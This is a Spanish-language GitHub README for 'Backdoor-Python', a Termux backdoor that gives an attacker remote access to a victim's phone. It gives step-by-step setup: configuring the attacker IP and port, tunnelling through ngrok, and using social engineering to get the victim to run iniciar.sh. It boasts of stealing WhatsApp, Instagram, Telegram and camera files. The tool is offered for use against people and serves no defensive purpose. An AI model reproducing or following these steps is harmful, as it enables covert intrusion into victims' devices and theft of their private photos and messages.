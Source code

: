 # Backdoor-Python
Un backdoor en python para termux , su uso no es mi responsabilidad ejecutar python2 server.py desde la maquina atacante configurar ip y puerto de la red local o para fuera de la red con ngrok tcp ,enviar herramienta a la victima usar ig social para que ejecute iniciar.sh.

#Script solo valida para Termux

#ATACANTE
Clonar el repositorio en el atacante

git clone https://github.com/MRX90902WX/Backdoor-Python

configurar la ip y el puerto en los dos archivos server.py y backdoor.py

Ejecutar python2 server.py

#VICTIMA
Clonar el repositorio que crearas tu con los archivos backdoor.py y Config.sh y iniciar.sh

git clone https://github.com/.....

bash iniciar.sh

*UNA VES ECHO ESTO YA TIENES ACESSO A SU TERMUX
MEDIANTE UNA PUERTA TRASERA 
PUEDES DESCARGAR IMAGENES, AUDIOS DEL WASAP DE LA VICTIMA
ASI IGUAL DE FACEBOOK,INSTAGRAM,TELEGRAM Y LA CAMARA

(carpetas hackeadas)

■ Pictures
■ Camera
■ com.whatsapp

Tutorial de como usarlo
https://youtu.be/QCqkLSchQlc
Créditos a @svpirate503

Configurar esa última última iniciar.sh si la victima usa
WhatsApp bussines 

#Bye.

